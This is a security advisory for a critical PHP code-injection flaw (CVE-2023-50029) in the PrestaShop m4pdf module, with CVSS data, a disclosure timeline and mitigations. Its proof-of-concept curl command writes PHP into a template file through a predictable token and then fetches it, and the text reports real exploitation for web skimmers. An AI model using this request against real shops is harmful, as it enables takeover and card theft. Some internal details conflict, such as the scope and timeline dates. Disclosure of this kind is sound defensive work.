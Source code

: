 ```yaml
---
layout: post
title: "[CVE-2023-50029] Improper Control of Generation of Code in PrestaAddons - M4 PDF Extensions module for PrestaShop"
categories: modules
author:
- TouchWeb.fr
- realdev.fr
- 202-ecommerce.com
meta: "CVE,PrestaShop,m4pdf"
severity: "critical (10)"
---
```


In the module "M4 PDF Extensions" (m4pdf) up to version 3.3.2 from PrestaAddons for PrestaShop, a guest can perform PHP code injection in affected versions.


## Summary

* **CVE ID**: [CVE-2023-50029](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-50029)
* **Published at**: 2024-06-20
* **Platform**: PrestaShop
* **Product**: m4pdf
* **Impacted release**: <= 3.3.1 (3.3.2 fixed the vulnerability - see WARNING below)
* **Product author**: PrestaAddons
* **Weakness**: [CWE-94](https://cwe.mitre.org/data/definitions/94.html)
* **Severity**: critical (10)

## Description

The method `M4PDF::saveTemplate()` has sensitive action that can be executed with a trivial http call and exploited to forge a Code injection.

Note : A useless predictable token protect these methods.

This exploit uses a PrestaShop front controller and most attackers can conceal the module controller's path during the exploit, so you will never know within your conventional frontend logs that it exploits this vulnerability. **You will only see "POST /" inside your conventional frontend logs.** Activating the AuditEngine of mod_security (or similar) is the only way to get data to confirm this exploit.

**WARNING** : The module still own sensitive to critical issues because author refuse to update its logical authentication flaw, you should consider to delete it or put its front controller under IP restriction, if you do so, you must be aware of [this](https://github.com/PrestaShop/PrestaShop/blob/1.7.7.x/classes/Dispatcher.php#L1092).

**Edit 2024-09-10 - WARNING** : This exploit is actively used to deploy webskimmer to massively steal credit cards. Since POC is now exploited, it is considered public.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)

## Possible malicious usage

* Obtain admin access
* Remove data from the associated PrestaShop
* Copy/paste data from sensitive tables to FRONT to expose tokens and unlock admin's ajax scripts
* Rewrite SMTP settings to hijack emails

## Proof of concept

```bash
curl -v -X POST -d 'fc=module&module=m4pdf&controller=pdf&nav=1&action=save&action_target=test.php&template=test&m4token=PREDICTABLE_TOKEN&editor_content=<?= 42;' 'https://preprod.X/' && curl -v 'https://preprod.X/modules/m4pdf/tpl/test.php'
```

## Other recommendations

* It’s recommended to delete the module **m4pdf** since author refuse to review its authentication design based on predictable token
* Activate OWASP 933's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against this set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-10-19 | Issue discovered during a code review by [realdev](https://www.realdev.fr) and document by [TouchWeb.fr](https://www.touchweb.fr) |
| 2023-10-19 | Realdev report it to author |
| 2023-09-21 | Contact PrestaShop Addons security Team to confirm version scope by author |
| 2023-11-08 | PrestaShop Addons security Team confirms version scope |
| 2023-12-12 | Received CVE ID |
| 2024-01-16 | Relaunch author for patch |
| 2024-04-17 | Relaunch author for patch |
| 2024-06-20 | Publish this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/en/data-import-export/2011-m4-pdf-extensions.html)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2023-50029)
